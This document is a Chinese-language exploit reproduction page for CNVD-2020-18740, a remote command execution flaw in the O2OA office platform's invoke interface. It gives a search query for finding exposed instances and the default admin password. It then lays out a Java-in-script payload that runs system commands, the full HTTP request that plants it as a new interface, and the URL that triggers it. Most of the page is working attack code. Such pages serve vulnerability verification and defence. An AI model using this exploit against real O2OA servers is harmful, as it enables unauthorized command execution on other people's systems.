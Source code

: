 # O2OA invoke 后台远程命令执行漏洞 CNVD-2020-18740

## 漏洞描述

O2OA是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA系统invoke 接口存在远程代码执行漏洞。攻击者可利用漏洞执行任意代码。

## 漏洞影响

<a-checkbox checked>O2OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="O2OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1661649878832-df6a8d1f-e402-4db0-b567-7d0803a43c0a.png)

默认密码登录后台 xadmin/o2 

![img](../../../.vuepress/public/img/1661649916148-8af674f2-9b77-41e8-bfab-fe47e364140c.png)

在应用中找到服务管理，创建接口代码执行系统命令

```php
var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream()));

var result = [];
while (true) {
    var oneline = bufReader.readLine();
    result.push(oneline);
    if (!oneline) break;
}
var result = { "Result": result };
this.response.setBody(result, "application/json"); 
```

![img](../../../.vuepress/public/img/1661650002413-1be235fd-5727-4e31-826f-92ae36e44d04.png)

请求包

```php
POST /x_program_center/jaxrs/invoke?v=6.3 HTTP/1.1
Authorization: PfyuxmzgIzrrkjVKSmRBJ4uCkH5tYmpq50QnO7mEHhA

{"id":"cmd","name":"cmd","enableToken":false,"alias":"","description":"","validated":true,"enable":true,"text":"var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(\"id\").getInputStream()));\n\nvar result = [];\nwhile (true) {\n    var oneline = bufReader.readLine();\n    result.push(oneline);\n    if (!oneline) break;\n}\nvar result = { \"Result\": result };\nthis.response.setBody(result, \"application/json\"); ","remoteAddrRegex":"","createTime":"2022-08-27 04:39:18","updateTime":"2022-08-27 04:39:18"}
```

![img](../../../.vuepress/public/img/1661650118309-8a01cd95-9083-4ac8-8615-6cbde2512630.png)

创建成功后访问接口执行系统命令 

```php
/x_program_center/jaxrs/invoke/cmd/execute
```

![img](../../../.vuepress/public/img/1661650222611-e47cb068-cceb-4aa9-95de-421bb1e026f9.png)